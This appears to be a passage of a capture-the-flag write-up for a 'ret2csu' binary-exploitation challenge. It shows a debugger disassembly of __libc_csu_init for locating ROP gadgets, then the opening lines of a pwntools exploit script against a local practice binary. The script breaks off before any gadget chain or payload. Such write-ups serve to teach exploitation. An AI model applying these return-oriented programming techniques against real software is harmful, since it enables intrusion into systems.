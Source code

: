 ```
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400691 → __libc_csu_init()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  disas $rip
Dump of assembler code for function __libc_csu_init:
   0x0000000000400640 <+0>:     push   r15
   0x0000000000400642 <+2>:     push   r14
   0x0000000000400644 <+4>:     mov    r15,rdx
   0x0000000000400647 <+7>:     push   r13
   0x0000000000400649 <+9>:     push   r12
   0x000000000040064b <+11>:    lea    r12,[rip+0x20079e]        # 0x600df0
   0x0000000000400652 <+18>:    push   rbp
   0x0000000000400653 <+19>:    lea    rbp,[rip+0x20079e]        # 0x600df8
   0x000000000040065a <+26>:    push   rbx
   0x000000000040065b <+27>:    mov    r13d,edi
   0x000000000040065e <+30>:    mov    r14,rsi
   0x0000000000400661 <+33>:    sub    rbp,r12
   0x0000000000400664 <+36>:    sub    rsp,0x8
   0x0000000000400668 <+40>:    sar    rbp,0x3
   0x000000000040066c <+44>:    call   0x4004d0 <_init>
   0x0000000000400671 <+49>:    test   rbp,rbp
   0x0000000000400674 <+52>:    je     0x400696 <__libc_csu_init+86>
   0x0000000000400676 <+54>:    xor    ebx,ebx
   0x0000000000400678 <+56>:    nop    DWORD PTR [rax+rax*1+0x0]
   0x0000000000400680 <+64>:    mov    rdx,r15
   0x0000000000400683 <+67>:    mov    rsi,r14
   0x0000000000400686 <+70>:    mov    edi,r13d
   0x0000000000400689 <+73>:    call   QWORD PTR [r12+rbx*8]
   0x000000000040068d <+77>:    add    rbx,0x1
=> 0x0000000000400691 <+81>:    cmp    rbp,rbx
   0x0000000000400694 <+84>:    jne    0x400680 <__libc_csu_init+64>
   0x0000000000400696 <+86>:    add    rsp,0x8
   0x000000000040069a <+90>:    pop    rbx
   0x000000000040069b <+91>:    pop    rbp
   0x000000000040069c <+92>:    pop    r12
   0x000000000040069e <+94>:    pop    r13
   0x00000000004006a0 <+96>:    pop    r14
   0x00000000004006a2 <+98>:    pop    r15
   0x00000000004006a4 <+100>:   ret    
End of assembler dump.
```

After making the adjustments recommended above, the new exploit code looks like the following:

```python
from pwn import *

# Set the pwntools context
context.arch = 'amd64'
context.log_level = 'debug'

# Project constants
PROCESS = './ret2csu'
io = process(PROCESS)

# Debugging
'''
gdbscript = "b *0x0040069a"
pid = gdb.attach(io, gdbscript=gdbscript)
'''

# ROP Gadgets
```